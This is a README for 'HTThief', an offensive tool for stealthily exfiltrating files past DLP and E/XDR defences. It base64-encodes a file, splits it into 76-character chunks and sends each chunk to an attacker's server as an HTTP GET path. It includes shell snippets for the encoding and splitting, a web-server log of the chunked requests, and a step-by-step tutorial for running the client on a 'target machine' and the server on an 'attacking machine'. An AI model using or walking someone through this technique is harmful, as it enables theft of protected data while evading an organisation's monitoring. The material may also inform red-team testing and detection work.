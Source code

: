 # HTThief

This tool was developed with the intention of serving as a (simple but effective) way to transfer files protected by DLP, E/XDR and etc (exfiltration) in a stealthy way. Convert any type of file (eg executables, Office, Zip, images) into URLs and send them via simple GET.

# Author
Vinicius Vieira

# Why is this different from every other HTTP exfiltration technique?

The most common data exfiltration techniques via HTTP are based on file upload (encrypted or not). These techniques can be easily detected, either by anomalous behavior of the endpoint (uploading a file on an unknown website) or even by traffic (through DLP, for example), as well as being easily mitigated.
HTThief differs from the others because it encodes the raw file data in Base64 and divides it into small strings, which are passed via URL to the server. This makes detection and mitigation very difficult, because through the process of steganography of the file in URLs, it becomes practically impossible to detect that each one is actually a piece of a certain file.

# How it works?

How HTThief works is based on two assumptions: 

1) encode the file in base64 to be sent; and
   
    ```
    ### encoding the file
    echo "Enconding the file..."
    ENCODED=$(base64 $path)
    echo $ENCODED > /tmp/ax0c.txt
    ```
    
2) divide it into pieces to make it difficult to decode the file during sending
   
    ```
    ### organizing the file
    echo "Organizating the file..."
    tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
    FILE="/tmp/ax0d.txt"
    ```
By default base64 will generate strings of 76 characters with a nullbyte (which in ASCII is understood as a space) at the end, instead of a new line. 

![h6](https://github.com/V1n1v131r4/HTThief/assets/1153876/4612fce1-19e5-4d74-90de-cb117e493545)

HTThief takes advantage of this to replace these spaces with new lines by means of ```tr -s``` and send the HTTP GET of each line of the encoded file, that is, pieces of 76 characters. 

```
tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
```

That way, even if there is some soul that decodes during tracing, this piece of code could not be identified as the original file.

```
┌──(kali㉿kali)-[~/HTThief]
└─$ cat /var/log/apache2/access.log
 
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET //9j/4QCKRXhpZgAATU0AKgAAAAgABQENAAIAAAAnAAAASgEaAAUAAAABAAAAcgEbAAUAAAABAAAA HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /egEoAAMAAAABAAIAAAITAAMAAAABAAEAAAAAAAA8P3BocCBwaHBpbmZvKCk7IF9faGFsdF9jb21w HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /aWxlcigpOyA/PgAAAAAASAAAAAEAAABIAAAAAf/bAIQAAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB/8AAEQgDIAMg HTTP/1.1" 404 432 "-" "curl/7.88.1"
```


# Tutorial

HTThief is based on two scripts, one to be executed on the server/attacker machine (who will receive the file) and another on the client (machine that will send the file):

```
┌──(kali㉿kali)-[~/HTThief]
└─$ ls -l
total 8
-rwxr-xr-x 1 kali kali 2681 Aug 10 09:13 client.sh
-rwxr-xr-x 1 kali kali  846 Aug 10 09:11 server.sh

```

After choosing the file to be sent, first you must run server.sh on the attacking machine:

![h1](https://github.com/V1n1v131r4/HTThief/assets/1153876/48c9c3eb-250b-429d-9b0a-9af753e87709)



On the target machine, run client.sh and fill in the absolute path of the file that should be sent:

![h2](https://github.com/V1n1v131r4/HTThief/assets/1153876/d708c3de-0553-49c5-9319-fde9c393f906)


After sending the file, go back to the attacking machine, type "yes" for the script flow to end.
At the end of receiving, choose the original extension of the file so that it is originally reassembled on the attacking machine.

![h3](https://github.com/V1n1v131r4/HTThief/assets/1153876/e3a3f84d-3f13-4908-acf9-26d5766edcb0)

![h4](https://github.com/V1n1v131r4/HTThief/assets/1153876/86d891d5-5aa2-45a0-93d2-781ac72f7277)


# Requires
